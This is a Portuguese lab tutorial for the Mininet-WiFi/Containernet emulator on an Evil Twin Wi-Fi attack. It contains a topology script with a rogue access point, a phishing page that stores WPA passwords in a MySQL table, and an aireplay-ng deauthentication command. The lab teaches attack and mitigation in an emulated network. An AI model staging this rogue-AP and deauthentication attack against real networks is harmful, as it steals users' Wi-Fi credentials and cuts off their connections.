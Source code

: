 ************
Evil Twin Attack
************


Hackeando a senha WPA2 usando Evil Twin Attack e Hostapd
-------------

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin.png?raw=true

.. Note::
  **Neste documento você irá compreender como realizar o ataque denominado de  Evil Twin Attack**
  
  **Requisitos:** 
  
  - Containernet - https://github.com/ramonfontes/containernet
  - Hostapd

  **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Porém, para utilizar o containernet você deverá entrar no diretório ~/containernet e dentro dele executar o comando `sudo make install` Caso alguma dependência esteja faltando ela terá de ser resolvida.**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

 #!/usr/bin/python

 '''@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br'''

 from containernet.net import Containernet
 from containernet.node import DockerSta
 from mininet.log import setLogLevel, info
 from containernet.cli import CLI
 from containernet.term import makeTerm


 def topology():
     "Create a network."
     net = Containernet()

     info("*** Creating nodes\n")
     sta1 = net.addStation('sta1', ip='192.168.190.2/24')
     sta2 = net.addStation('sta2', ip='192.168.190.3/24')
     ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                              failMode="standalone", datapath='user')
     ap2 = net.addStation('ap2', cls=DockerSta, dimage="ramonfontes/rogue-ap", cpu_shares=20)

     info("*** Configuring wifi nodes\n")
     net.configureWifiNodes()

     info("*** Starting network\n")
     net.build()
     ap1.start([])

     ap2.setMasterMode(intf='ap2-wlan0', ssid='simplewifi', channel='1', mode='g')
     #ap2.cmd('pkill -f \"ap2-wlan0.apconf\"')
     ap2.cmd('ifconfig ap2-wlan0 up 192.168.190.1 netmask 255.255.255.0')

     sta2.cmd('route add default gw 192.168.190.1')
     sta2.cmd('iw dev sta1-wlan0 interface add mon0 type monitor')
     sta1.cmd('iwconfig sta1-wlan0 essid simplewifi ap 02:00:00:00:03:00')

     info("*** Running CLI\n")
     CLI(net)

     info("*** Stopping network\n")
     net.stop()


 if __name__ == '__main__':
     setLogLevel('info')
     topology()


Considerando que o código acima tenha sido salvo em um arquivo com nome `evil-twin-attack.py`, execute-o conforme abaixo:

.. code:: console

    sudo python evil-twin-attack.py
    
.. warning:: 

    O tempo de execução será maior se você estiver executando o código acima pela primeira vez, pois uma imagem gravada em conta no Docker será carregada na VM.
    
De acordo com a topologia acima, `sta1` deverá estar conectado ao ponto de acesso `ap1`. Voce pode confirmar esta afirmação utilizando o comando abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 link
    Connected to 02:00:00:00:03:00 (on sta1-wlan0)
          SSID: simplewifi
          freq: 2412
          RX: 62468 bytes (1373 packets)
          TX: 144 bytes (4 packets)
          signal: -36 dBm
          tx bitrate: 1.0 MBit/s

          bss flags:	short-slot-time
          dtim period:	2
          beacon int:	100
    
Na topologia do código acima, `sta1` será a vítima e `sta2` o atacante. Além disso, o ponto de acesso `ap1` será o ponto de acesso real e o ataque será feito através do ponto de acesso `ap2`.


.. admonition:: Passo a ser realizado
 
   - Neste momento, você deverá configurar ap2 de forma que ele permita o encaminhamento de dados entre a sua interface sem fio e sua interface com fio, de forma que a vítima possa ter acesso à Internet.
   - Execute também o hostapd em `ap2` para que a vítima possa receber sinal do ponto de acesso falso.
   
Neste momento, `ap2` deverá estar acessível à `sta1`, conforme pode ser observado abaixo:

.. code:: console

    sta1 iw dev sta1-wlan0 scan | grep SSID
    
    SSID: simplewifi
    SSID: simplewifi

A saída acima comprova que existem dois pontos de acesso divulgando o mesmo SSID.


Neste momento, você que é `sta2`, deverá conectar-se ao ponto de acesso `ap2` - o seu AP falso - e testar a conectividade com a Internet. Portanto, ao conectar-se, a saída esperada é a que se encontra abaixo:

.. code:: console

    containernet> sta2 ping -c1 8.8.8.8
    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=1100 ms

    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 1100.253/1100.253/1100.253/0.000 ms

.. admonition:: Passo a ser realizado

   - Agora, você deverá configurar `ap2` de forma que todo tráfego tendo como porta de origem 80 seja redirecionado para 192.168.190.1 também na porta 80. Dica: você pode ter que utilizar o `iptables`.
   - Como o `ap2` já vem pré-configurado com os recursos de software necessários para a execução do ataque, inicie os serviços `apache2` e `mysql`.
   - Defina o endereço de DNS de `sta2` para 8.8.8.8.
 
Então, ao tentar acessar o endereço http://www.google.com:80 ou qualquer outro site na porta 80 a partir de `sta2`, você deverá obter como resultado algo similar à figura apresentada abaixo:

.. image:: https://github.com/ramonfontes/sphinx_rtd_theme/blob/master/docs/imgs/evil-twin-screenshot.png?raw=true

Em um ambiente bem configurado, não seria necessário definir a porta 80. Qualquer site seria redirecionado para a página apresentada acima. Mesmo que fosse uma página em HTTPs. Aqui, certifique-se, pelo menos, que o arquivo em `ap2` localizado em `/var/www/html/dbconnect.php` possua o valor definido para a variável $host o mesmo IP da porta `eth0` de `ap2`. Caso contrário, você deverá ter que realizar modificações para que o servidor mysql funcione corretamente.

.. hint::

    - Usuário do banco de dados: rogueuser
    - Senha do usuário rogueuser: roguepassword
    - Nome do banco de dados: rogueap

Com todos os passos realizados com sucesso, você agora tem um ambiente pronto. Isso signfica que ao preencher alguma informação nos campos de usuário e senha da página acessada acima e submeter o formulário, as informações serão salvas no banco de dados `rogueap`.

Você pode confirmar a obtenção das informações através de uma consulta na tabela `wpa_keys`, conforme abaixo:

.. admonition:: Passo a ser realizado

     mysql> select * from wpa_keys;
     
     +-----------+-----------+   
     | password1 | password2 |   
     +-----------+-----------+   
     | teste     | teste     |   
     +-----------+-----------+  
     1 row in set (0.00 sec)   

Agora, só nos basta executar o comando abaixo para forçar a desassociação de `sta1` em relação ao `ap1`.

.. code:: console

   aireplay-ng -00 -a 02:00:00:00:03:00 mon0 --ignore-negative-one
   
Você poderá confirmar através do comando abaixo que `sta1` agora está associado ao `ap2`.


.. code:: console
     containernet> sta1 iw dev sta1-wlan0 link
     Connected to 02:00:00:00:02:00 (on sta1-wlan0)
      SSID: simplewifi
      freq: 2412
      RX: 2816701 bytes (62595 packets)
      TX: 2544 bytes (104 packets)
      signal: -36 dBm
      tx bitrate: 1.0 MBit/s

      bss flags:	short-slot-time
      dtim period:	2
      beacon int:	100


Qualquer acesso realiado por `sta1` agora será redirecionado para o `ap2`.
 

.. admonition:: Perguntas

    -Q1. Como este ataque pode ser mitigado?
